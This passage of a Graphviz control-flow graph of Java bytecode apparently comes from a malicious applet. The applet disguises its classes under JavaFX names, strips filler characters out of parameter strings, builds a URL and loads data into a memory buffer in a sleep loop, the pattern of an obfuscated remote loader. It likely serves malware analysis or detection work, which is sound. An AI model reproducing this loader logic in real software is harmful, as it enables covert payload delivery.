    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <JavaFX: java.lang.String getParameter(java.lang.String)>";
    "push \"ee0ee0ee90\""
    "virtualinvoke <JavaFX: java.lang.String getParameter(java.lang.String)>"->"push \"ee0ee0ee90\"";
    "push \"e\""
    "push \"ee0ee0ee90\""->"push \"e\"";
    "push \"e\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "store.r r340"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r340";
    "staticinvoke <JavaFXColor: java.lang.String decodeString(java.lang.String)>"
    "store.r r340"->"staticinvoke <JavaFXColor: java.lang.String decodeString(java.lang.String)>";
    "store.r r342"
    "staticinvoke <JavaFXColor: java.lang.String decodeString(java.lang.String)>"->"store.r r342";
    "store.r r342"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r61"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r61";
    "load.r r61"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r61";
    "store.r r61"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r61";
    "load.r r61"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r342"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r342";
    "load.r r342"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r0"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "store.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r340"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r340";
    "load.r r340"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "new java.net.URL"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.net.URL";
    "new java.net.URL"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"load.r r293";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r293"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "push \"ZZ9ZZZZ0ZZZ9ZZZ09Z0ZZZ90\""
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push \"ZZ9ZZZZ0ZZZ9ZZZ09Z0ZZZ90\"";
    "push \"Z\""
    "push \"ZZ9ZZZZ0ZZZ9ZZZ09Z0ZZZ90\""->"push \"Z\"";
    "push \"Z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <JavaFX: java.nio.IntBuffer[] __E(java.lang.String,java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <JavaFX: java.nio.IntBuffer[] __E(java.lang.String,java.lang.String)>";
    "fieldput <JavaFX: java.nio.IntBuffer[] mem>"
    "virtualinvoke <JavaFX: java.nio.IntBuffer[] __E(java.lang.String,java.lang.String)>"->"fieldput <JavaFX: java.nio.IntBuffer[] mem>";
    "fieldput <JavaFX: java.nio.IntBuffer[] mem>"->"load.r r0";
    "staticinvoke <JavaFXTrueColor: void init(java.net.URL)>"
    "load.r r0"->"staticinvoke <JavaFXTrueColor: void init(java.net.URL)>";
    "push 10L"
    "staticinvoke <JavaFXTrueColor: void init(java.net.URL)>"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "store.r r0"->"return";
}
